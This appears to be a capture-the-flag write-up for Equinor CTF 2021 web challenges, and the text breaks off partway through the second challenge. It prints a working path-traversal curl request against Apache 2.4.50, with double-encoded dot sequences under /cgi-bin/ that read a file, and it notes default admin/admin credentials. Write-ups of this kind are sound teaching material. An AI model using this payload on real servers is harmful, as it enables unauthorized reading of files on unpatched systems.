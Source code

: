 ```yaml
---
title: Equinor CTF 21
date: 2021-11-01 12:00:00 +0100
categories: [CTF, "2021"]
tags: [ctf, web, pwn, crypto, misc, rev, ret2win, python, xor, format-string, "2021"]
---
```

# Web
## AH-64
> Category: Web
>
> Super Six One, go to UHF secure. I've got some bad news. We see vulnerabilites like it is 2001. Tango located in /opt/flag
>
> Site: AH-64 (http://io.ept.gg:30071/)

Going into the link we get a website with the text "It works!", and no more.

We can send a GET-request to the webpage to see the server version.

Using httpie:
```bash
$ http GET http://io.ept.gg:30071/
```
Shows us the Apache version
```
Server: Apache/2.4.50 (Unix)
```
A little research shows us that this server is vulnerable to a path-traversal attack (https://www.exploit-db.com/exploits/50406)
The webpage also gives us the method to perform this attack.

```bash
$ curl http://io.ept.gg:30071//cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/opt/flag
> EPT{we've_got_a_blackhawk_down_we've_got_a_blackhawk_down_i_mean_apache}
```

## Notes
> Category: Web
>
> There may be some notes you need to see, or maybe not?
>
> OWASP can help you if you need some hints, remember this is an old developer.
>
> Site: notes.io.ept.gg

Entering the site we get the same login screen as in *Stonks*.
We know we can log in with
```
Username: admin
Password: admin
```
We are presented with notes when we are logged in, and we can post them as well.
If we click the note already created, we get the url:
> https://notes.io.ept.gg/note?noteid=2

